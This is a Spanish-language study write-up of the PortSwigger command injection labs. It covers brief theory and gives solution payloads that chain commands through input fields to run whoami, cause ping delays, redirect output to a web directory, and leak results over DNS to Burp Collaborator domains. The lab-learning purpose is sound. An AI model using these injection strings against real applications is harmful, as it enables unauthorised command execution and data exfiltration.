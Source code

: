 ```yaml
---
title: Command Injection | PortSwigger
---
```

Labs de Command Injection de PortSwigger hechos y explicados. Tambien incluyo un poco de teoria.

### Parte teórica

comandos útiles:

```
Purpose of command      Linux              Windows
Name of current user     whoami             whoami
Operating system         uname -a         ver
Network configuration     ifconfig         ipconfig /all
Network connections     netstat -an     netstat -an
Running processes         ps -ef             tasklist
```

Concatenar comandos:

```
#Windows & Sistemas basados en Unix: 
&
&&
|
||
#Solo en sistemas basados en Unix: 
;
Newline (0x0a or \n)
# Para inyectar comandos:
`comando`
$(comando)
```

-   Detectar OS C.I usando time delays:

```
& ping -c 10 127.0.0.1 &
# Este comando hará que la aplicación haga ping a su adaptador de red loopback durante 10 segundos.
```
----------
### Parte práctica

#### Lab: OS command injection, simple case

```
# Simplemente tenmos que añadir | whoami despues de productId ya que no filtra el input del usuario.
```

#### Lab: Blind OS command injection with time delays

```
||ping+-c+10+127.0.0.1||
# Lo agregamos despues del campo email para concatenarlo y causar un delay de 10s
```

#### Lab: Blind OS command injection with output redirection

```
# Campo email explotable:
||whoami+>+/var/www/images/test.txt||
# usamos /var/www/images/ ya que sabemos que es vulnerable
# Una vez concatenamos y enviamos ese comando, vamos a la pagina, entramos en cualquier producto, interceptamos la petición y cuando veamos:
GET /image?filename=26.jpg # En la request, cambiamos 26.jpg por el archivo .txt (test.txt en mi caso)
```
--------
#### Lab: Blind OS command injection with out-of-band interaction

```
||nslookup+5tzgk7i5ksx0e2hgdyiii4mreik88x.oastify.com||
#Concatenamos nuestro dominio del burp collaborator al campo email del feedback.
#También podemos ejecutar comandos y que su resultado sea redirigido a nuestro dominio. Por ejemplo:
& nslookup `whoami`."dominio.." &
```
----------
#### Lab: Blind OS command injection with out-of-band data exfiltration
```
# Concatenamos lo siguiente al campo email: 
||nslookup+`whoami`.3koeb593bqoy508e4w9g92dp5gbcz1.oastify.com||
```